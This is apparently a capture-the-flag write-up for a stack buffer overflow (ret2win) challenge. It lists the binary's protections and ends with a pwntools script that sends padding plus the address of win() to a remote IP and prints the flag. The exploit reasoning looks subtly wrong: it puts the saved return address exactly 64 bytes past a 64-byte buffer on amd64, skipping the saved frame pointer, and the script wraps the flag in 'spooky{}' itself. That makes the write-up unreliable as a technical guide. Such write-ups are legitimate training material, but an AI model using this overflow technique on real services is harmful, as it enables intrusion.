

## Overview
"I can’t trust computers anymore. I trusted the input, it overflowed."

```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 64 bytes but reads in 128 bytes, therefore overflowing it.



---
## Exploit Development
The program includes a `win()` function that prints the flag. Our goal is to find the offset from the start of our input to the saved return address, then overwrite it with the address of `win()`. When the vulnerable functions returns, the execution will be redirected into `win()`.

From the source you can see `buf` is 64 bytes, so rather than recovering the offset with a cyclic pattern or any other related technique, we can work from that size directly. In this binary the saved return address sits exactly 64 bytes past the start of `buf`, resulting in the payload being 64 `A`'s of padding followed by the address of `win()` (`0x4011d6`).

---
## Final Pwn

```python
from pwn import *

p = remote("18.226.103.146", 1337)

payload = b"A" * 64
payload += p64(0x4011d6)

p.sendlineafter(b"New sign direction: ", payload)

p.recvuntil("Secret value: ")
line = p.recvall()
flag = line.split(b"\n")[0].decode().strip()

print("spooky{" + flag + "}")

p.interactive()
```
```
spooky{br4v3Se@O77er}
```